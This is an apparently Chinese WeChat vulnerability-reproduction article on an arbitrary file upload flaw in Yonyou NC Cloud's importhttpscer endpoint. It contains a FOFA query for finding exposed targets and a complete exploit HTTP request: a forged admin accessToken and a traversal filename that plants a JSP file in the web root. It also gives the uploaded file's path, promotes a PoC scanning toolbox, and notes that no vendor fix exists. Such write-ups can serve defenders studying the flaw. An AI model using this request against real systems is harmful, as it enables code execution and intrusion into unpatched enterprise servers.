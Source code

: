 #  用友NC Cloud importhttpscer接口存在任意文件上传漏洞   
南风徐来  南风漏洞复现文库   2024-04-04 22:58  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友NC Cloud importhttpscer接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
## 2.漏洞描述  
  
用友 NC Cloud，大型企业数字化平台， 聚焦数字化管理、数字化经营、数字化商业，帮助大型企业实现 人、财、物、客的全面数字化，从而驱动业务创新与管理变革，与企业管理者一起重新定义未来的高度。为客户提供面向大型企业集团、制造业、消费品、建筑、房地产、金融保险等14个行业大类，68个细分行业，涵盖数字营销、智能制造、财务共享、数字采购等18大解决方案，帮助企业全面落地数字化。用友NC Cloud importhttpscer接口存在任意文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友NC Cloud  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreBCic8YVXLxicsBJ5HGC7icicGgCpniauoD7OBcWCiauHDZ8387HYDsTChbPiag/640?wx_fmt=jpeg&from=appmsg "null")  
  
用友NC Cloud importhttpscer接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
app="用友-NC-Cloud"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/nccloud/mob/pfxx/manualload/importhttpscer  
  
漏洞数据包：  
```
POST /nccloud/mob/pfxx/manualload/importhttpscer HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
accessToken: eyJhbGciOiJIUzUxMiJ9.eyJwa19ncm91cCI6IjAwMDE2QTEwMDAwMDAwMDAwSkI2IiwiZGF0YXNvdXJjZSI6IjEiLCJsYW5nQ29kZSI6InpoIiwidXNlclR5cGUiOiIxIiwidXNlcmlkIjoiMSIsInVzZXJDb2RlIjoiYWRtaW4ifQ.XBnY1J3bVuDMYIfPPJXb2QC0Pdv9oSvyyJ57AQnmj4jLMjxLDjGSIECv2ZjH9DW5T0JrDM6UHF932F5Je6AGxA
Content-Length: 190
Content-Type: multipart/form-data; boundary=fd28cb44e829ed1c197ec3bc71748df0

--fd28cb44e829ed1c197ec3bc71748df0
Content-Disposition: form-data; name="file"; filename="./webapps/nc_web/141172.jsp"

<%out.println(1111*1111);%>
--fd28cb44e829ed1c197ec3bc71748df0--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreBDdrEia1g5t2QNOicRpcgbyMg56dO7IngP8iaYHk8rz34LqFb1FY7TdgMg/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传后的路径 http://127.0.0.1/141172.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreBBxr8dfXOMAyWaxwsFtib8Ctljh1OvRWOA9jLdtUynfrVYVEIrTvOoiaQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现116 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreBHXLTVnEUF3mwvTRKc6qGAyGp8SEPbZdpBL7ss4eW31QbKAJOZQ536w/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreB1jk67yku5ygoIBICnEW81421DK5ceFcGPqHxmmOwib0UfXMbAHzDTZA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreBjczIvXnKqENVX9otRcWy7xAjdkJkPaS2Czyib71tZAiacpUhKgoNAYicA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreBeL7ud0Nhg9gfQDdib18m9GPrDR1HKTCyOr6P7dqdjO3yicEYqPab6YlQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreB8s8LTzmySLG7v2j8hUgdWiaCQJtR1FG0IEQ1Kc2UZ7OG8U7v6ia64HSg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreB8gDl6afESVDRFpXX7Ic6jzvGq6TdeQzN22dcNB2R8XCxPicTPy4YoIQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bHTFNUJ59XrHpomicH2hreBKib6mtJ1KKqW8ic1YWuMjibsiaYsr71x31ibE6qBvbnN9iciavAM9pfF7YcIQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新： https://www.yonyou.com/  
## 8.往期回顾  
  
[鸿运(通天星CMSV6车载)主动安全监控云平台inspect_file/upload存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486000&idx=1&sn=5d24679dac266958d742b78f30b98de9&chksm=974b8737a03c0e2101e726efca54382ffbf79e963e8417fa4fdd6fde8551317cdea99f86c36a&scene=21#wechat_redirect)  
  
  
[用友U8-Cloud FileServlet接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485971&idx=1&sn=1ff418faefa7d29d963287d2dcc9484f&chksm=974b8714a03c0e022db2152ca5aede423908c66bdc70e58877c80847c0d8455ad20f29c6fe25&scene=21#wechat_redirect)  
  
  
  
  
